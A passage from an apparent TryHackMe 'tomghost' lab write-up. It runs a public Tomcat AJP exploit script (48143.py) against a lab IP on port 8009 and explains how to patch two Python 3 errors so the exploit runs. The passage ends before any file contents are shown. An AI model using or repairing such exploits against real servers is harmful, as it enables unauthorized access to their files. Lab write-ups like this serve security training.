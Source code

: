 After downloading, we can run the exploit as follows:

```
$ python3 48143.py -p 8009 10.10.106.51
Traceback (most recent call last):
  File "/home/kunal/tryhackme/tomghost/48143.py", line 295, in <module>
    t = Tomcat(args.target, args.port)
  File "/home/kunal/tryhackme/tomghost/48143.py", line 262, in __init__
    self.stream = self.socket.makefile("rb", bufsize=0)
TypeError: socket.makefile() got an unexpected keyword argument 'bufsize'
```

We need to change `bufsize` to `buffering` at line 262.

<figure><img src="../../.gitbook/assets/4 (73).png" alt=""><figcaption></figcaption></figure>

Let's run it again.

```
$ python3 48143.py -p 8009 10.10.106.51
Getting resource at ajp13://10.10.106.51:8009/asdf
----------------------------
Traceback (most recent call last):
  File "/home/kunal/tryhackme/tomghost/48143.py", line 302, in <module>
    print("".join([d.data for d in data]))
TypeError: sequence item 0: expected str instance, bytes found
```

We can fix this error by adding a `b` at line 302 before the `""`. This converts the string object into a byte object.
